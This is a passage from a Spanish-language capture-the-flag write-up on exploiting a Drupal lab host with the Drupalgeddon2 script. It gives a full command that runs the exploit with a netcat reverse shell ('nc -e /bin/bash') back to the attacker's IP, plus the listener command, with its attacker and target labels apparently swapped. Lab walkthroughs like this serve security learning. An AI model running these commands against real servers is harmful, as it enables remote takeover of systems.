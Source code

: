 Obtenemos la bandera final en `/root/flag.txt`.

----

## Variante utilizando una reverse shell

![reverse_shell](https://github.com/user-attachments/assets/b1cf36a8-1ae9-4afa-8290-81c30f7f8422)

### Atacante:
```bash
python2 drupalgeddon2.py -h http://10.0.2.5 -c 'nohup nc -e /bin/bash 10.0.2.15 9000 &'
```

### Descripción:
- `python2 drupalgeddon2.py`: Exploita una vulnerabilidad en Drupal para ejecutar comandos remotos.
- `-h http://10.0.2.5`: Especifica la URL del objetivo.
- `-c 'nohup nc -e /bin/bash 10.0.2.15 9000 &'`: Establece una conexión inversa con `netcat`.
- `nohup`: Permite que el proceso continúe ejecutándose en segundo plano.
- `nc -e /bin/bash 10.0.2.15 9000`: Conecta la shell a la máquina del atacante en el puerto `9000`.

### Objetivo:
```bash
nc -lnvp 9000
```

### Descripción:
- `nc -lnvp 9000`: Escucha conexiones entrantes en el puerto `9000`.
  - `-l`: Modo de escucha.
  - `-n`: No usa resolución de DNS.
  - `-v`: Modo detallado (verbose).
  - `-p 9000`: Especifica el puerto.




